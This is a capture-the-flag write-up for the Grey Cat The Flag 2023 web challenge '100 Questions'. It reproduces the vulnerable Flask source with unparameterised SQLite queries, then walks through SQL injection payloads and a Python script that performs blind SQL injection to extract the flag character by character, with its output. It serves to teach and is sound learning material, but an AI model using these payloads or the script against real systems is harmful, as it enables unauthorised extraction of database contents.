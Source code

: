 # 100 Questions

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 137 solves / 50 points
- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

I love doing practice papers! There are 100 questions, but the answers to some are more important than others...

Alternative URLs: [http://34.126.139.50:10513](http://34.126.139.50:10513) [http://34.126.139.50:10514](http://34.126.139.50:10514) [http://34.126.139.50:10515](http://34.126.139.50:10515)

[http://34.126.139.50:10512](http://34.126.139.50:10512)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520115724.png)

In here, we can type an answer based on the question's equation.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/Web/100-Questions/dist.zip):**
```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/100-Questions)-[2023.05.20|11:58:13(HKT)]
└> file dist.zip 
dist.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/100-Questions)-[2023.05.20|11:58:15(HKT)]
└> unzip dist.zip 
Archive:  dist.zip
  inflating: app.py                  
  inflating: database.db             
 extracting: requirements.txt        
  inflating: templates/index.html    
```

**In `app.py`, we can see the web application's main logic:**
```python
from flask import Flask, render_template, request
import sqlite3

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    qn_id, ans= request.args.get("qn_id", default="1"), request.args.get("ans", default="")

    # id check, i don't want anyone to pollute the inputs >:(
    if not (qn_id and qn_id.isdigit() and int(qn_id) >= 1 and int(qn_id) <= 100):
        # invalid!!!!!
        qn_id = 1
    
    # get question
    db = sqlite3.connect("database.db")
    cursor = db.execute(f"SELECT Question FROM QNA WHERE ID = {qn_id}")
    qn = cursor.fetchone()[0]

    # check answer
    cursor = db.execute(f"SELECT * FROM QNA WHERE ID = {qn_id} AND Answer = '{ans}'")
    result = cursor.fetchall()
    correct = True if result != [] else False

    return render_template("index.html", qn_id=qn_id, qn=qn, ans=ans, correct=correct)

if __name__ == "__main__":
    app.run()
```

In route `/`, it'll check the `qn_id` GET parameter's value is digit or not, and is between 1 to 100.

So... **No Server-Side Template Injection (SSTI) :(**

**Next, it'll fetch the question based on the `qn_id` GET parameter's value:**
```python
    # get question
    db = sqlite3.connect("database.db")
    cursor = db.execute(f"SELECT Question FROM QNA WHERE ID = {qn_id}")
    qn = cursor.fetchone()[0]
```

As you can see, it doesn't have any prepared statement. But, **since `qn_id` is validated**, we can't do SQL injection in here.

However, that's not the case in `ans` GET parameter :D

```python
    # check answer
    cursor = db.execute(f"SELECT * FROM QNA WHERE ID = {qn_id} AND Answer = '{ans}'")
    result = cursor.fetchall()
    correct = True if result != [] else False
```

Again, **no prepared statement, AND the `ans` parameter's value IS NOT validated.**

Which means we can do SQL injection in here!

**To get the answer correct, we just need to provide `' OR 1=1-- -` in the `ans` GET parameter:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520120710.png)

Uhh... But where's the flag??? There's no flag in the web application...

## Exploitation

That being said, we need to **exfiltrate data from the database via SQL injection**.

Since there's no data is returned after the SQL query, Union-based SQL injection doesn't work in here. We try that:

**Found 3 columns in table `QNA`:**
```sql
' ORDER BY 3-- -
```

> Note: `ORDER BY 4` will trigger "500 INTERNAL SERVER ERROR", which means there are 3 columns.

**No data is returned:**
```sql
' UNION SELECT 'string1','string2','string3'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520121708.png)

Hence, this is a **Blind-based SQL injection**.

**More specifically, it's blind SQL injection with conditional responses:**
```sql
' OR 1=1-- -
' OR 1=2-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520125301.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520125315.png)

**That being said, we should be able to exfiltrate data via `substr()` function in SQLite.**

> Note: The `Answer` column is interesting to us, so we first exfiltrate data from table `QNA` in column `Answer`.

**To do so, I'll write a Python script:**
```python
#!/usr/bin/env python3
import requests
import string

if __name__ == '__main__':
    URL = 'http://34.126.139.50:10512/'
    position = 1
    exfiltratedData = ''
    characters = string.ascii_letters + string.digits + '''!"$%'()*+,-./:;<=>?@[\\]^_`{|}~'''
    id = 1

    while True:
        for character in characters:
            payload = f'''2' AND (SELECT SUBSTR(Answer, {position}, 1) FROM QNA WHERE ID={id} LIMIT 1 OFFSET 0) = '{character}'-- -'''
            print(f'[*] Trying payload: {payload}', end='\r')
            requestResult = requests.get(f'{URL}?qn_id=1&ans={payload}')

            if 'Correct!' in requestResult.text:
                exfiltratedData += ''.join(character)
                print(f'[+] Found answer: {exfiltratedData} in question ID {id}, payload: {payload}')
                position += 1
                break
        else:
            print('[-] Looped through all potential characters, no matched character.\n')
            id += 1
```

This will loop through all questions and characters.

**Run the script, and you should find the flag in question ID 42:**
```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/100-Questions)-[2023.05.20|13:32:57(HKT)]
└> python3 solve.py
[...]
[+] Found answer: g in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 1, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'g'-- -
[+] Found answer: gr in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 2, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'r'-- -
[+] Found answer: gre in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 3, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'e'-- -
[+] Found answer: grey in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 4, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'y'-- -
[+] Found answer: grey{ in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 5, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '{'-- -
[+] Found answer: grey{1 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 6, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '1'-- -
[+] Found answer: grey{1_ in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 7, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '_'-- -
[+] Found answer: grey{1_c in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 8, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'c'-- -
[+] Found answer: grey{1_c4 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 9, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '4'-- -
[+] Found answer: grey{1_c4N in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 10, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'N'-- -
[+] Found answer: grey{1_c4N7 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 11, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '7'-- -
[+] Found answer: grey{1_c4N7_ in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 12, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '_'-- -
[+] Found answer: grey{1_c4N7_5 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 13, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '5'-- -
[+] Found answer: grey{1_c4N7_53 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 14, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '3'-- -
[+] Found answer: grey{1_c4N7_533 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 15, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '3'-- -
[+] Found answer: grey{1_c4N7_533} in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 16, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '}'-- -
[-] Looped through all potential characters, no matched character.
[...]
```

- **Flag: `grey{1_c4N7_533}`**

## Conclusion

What we've learned:

1. Exploiting Blind SQL Injection With Conditional Responses